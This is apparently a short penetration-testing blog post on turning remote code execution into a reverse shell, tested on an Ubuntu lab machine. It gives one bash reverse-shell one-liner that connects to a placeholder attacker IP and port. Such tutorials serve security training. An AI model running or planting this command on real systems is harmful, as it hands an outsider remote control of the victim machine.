 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]



Soon in later articles we are going to be covering how to upgrade these shell's because these are not interactive, this means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE in order to don't confuse if the reverse shell got an error, beacuse we won't know if the problem is about the RCE or the shell.

For the porpous of this post we are going to be using an Ubuntu machine FocalFossa from [osboxes.org ][osboxes]

### Bash

This is propably the easiest way to do it.

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```





[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution
